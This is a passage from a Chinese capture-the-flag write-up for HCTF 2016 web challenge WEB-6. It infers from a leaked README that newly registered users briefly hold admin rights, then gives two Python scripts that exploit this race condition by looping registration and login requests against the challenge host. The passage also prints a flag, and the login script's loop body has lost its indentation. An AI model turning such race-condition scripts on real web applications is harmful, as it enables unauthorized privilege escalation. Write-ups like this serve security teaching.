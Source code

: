 最终flag：

	hctf{Th1s_1s_e4sY_1s_n0T_1t?}
###**WEB-6**

必须比香港记者还要快

先-1s为敬。

通过域名changelog以及空的.git文件夹，脑洞到README.md（脑洞链：changelog版本控制-->可能和git有关的-->git中一般把changelog放README中）。README.md中内容如下：


># 跑得比谁都快
>## ChangeLog 的故事
>## 这里是加了.git之后忘删的README.md  XD by Aklis
>## ChangeLog
>- 2016.11.11
>  完成登陆功能，登陆之后在session将用户名和用户等级放到会话信息里面。
>  判断sessioin['level']是否能在index.php查看管理员才能看到的**东西**。
>  XD
>  -
>- 2016.11.10
>   老板说注册成功的用户不能是管理员，我再写多一句把权限降为普通用户好啰。
>- 2016.10
>    我把注册功能写好了

通过以上可知两点：1.注册的用户在某一阶段为admin权限；2.在注册完用户后会对用户进行降权。由此可知本题考查的是条件竞争。

若要使得我们的用户获取flag，则要求程序运行按如下步骤进行：

	注册admin-->admin登录成功-->admin降权
我们写两个脚本，一个注册，一个登录，控制一下运行流程即可。脚本如下：

***register.py***

```python
from http import http
import urllib
import time
#-*- coding:utf-8 -*-

headers = {'Cookie':'PHPSESSID=ea6dihviip7pdsf0fqcrq8g8j7'}
for i in range(0,1000):
           print 		http('post','changelog.hctf.io',80,'/register.php','username=adminjjj%s&password=haozi&gogogo=%s&level=1'%(str(i),'%E8%8B%9F%21'),headers)
           print str(i)+' : 	'+http('get','changelog.hctf.io',80,'/index.php','',headers)
           time.sleep(2)
```
***login.py***

```python
from http import http
import sys
headers = {}
j = 0
for i in range(10000):

print http('post','changelog.hctf.io',80,'/login.php','username=adminjjj%s&password=haozi&gogogo=%s'%(str(j),'%E8%8B%9F%21'),headers)
tmp = http('get','changelog.hctf.io',80,'/index.php','',headers)
print tmp
headers = {}
if 'zero' in tmp:
    print str(j)+":"+'fail'
    j += 1
elif 'redirect' in tmp:
    pass
else:
    print 'ok'
```